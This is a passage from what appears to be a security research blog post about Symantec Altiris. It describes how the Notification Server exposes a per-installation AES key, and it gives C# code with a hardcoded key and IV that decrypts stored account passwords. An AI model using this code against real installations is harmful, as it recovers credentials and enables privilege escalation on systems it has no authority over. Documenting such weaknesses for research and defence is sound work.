 The policy data returned by the server contains its own AES key. This one is not of type `kHardcoded` but `kDefault, kExposableToAgent`, and it is actually the first AES key present in the *Notification Server*'s key file. As far as I can tell, this one is unique to each installation.

![Notification Server's exposable AES key](/assets/posts/2025-06-11-checking-symantec-account-credentials-privesccheck/notification-server-exposable-key.png)
*Notification Server's exposable AES key*

I wrote a quick program, largely inspired from the code of `EvilAltiris`, to test this key against the encrypted password.

```csharp
byte[] input_data = System.Convert.FromBase64String(args[0]);
byte[] key = System.Convert.FromBase64String("+us3+eX22qtRmFThHxiXKSFY1kxDFx0esu+ly5y3NrA=");
byte[] iv = System.Convert.FromBase64String("8o//+UbWvGhCUDuUAf5lhg==");

int encLength = input_data.Length - 64;
int encryptedBufferSize = encLength - 18;

byte[] processedData = new byte[encryptedBufferSize];
Buffer.BlockCopy(input_data, 64, processedData, 0, encryptedBufferSize);

using (AesCryptoServiceProvider aes = new AesCryptoServiceProvider()) {

    aes.Key = key;
    aes.IV = iv;
    aes.Mode = CipherMode.CBC;
    aes.Padding = PaddingMode.PKCS7;

    ICryptoTransform decryptor = aes.CreateDecryptor(aes.Key, aes.IV);

    using (MemoryStream msDecrypt = new MemoryStream(processedData)) {
        using (CryptoStream csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read)) {
            using (StreamReader srDecrypt = new StreamReader(csDecrypt)) {
                Console.WriteLine("Decrypted data: " + srDecrypt.ReadToEnd());
            }
        }
    }
}
```
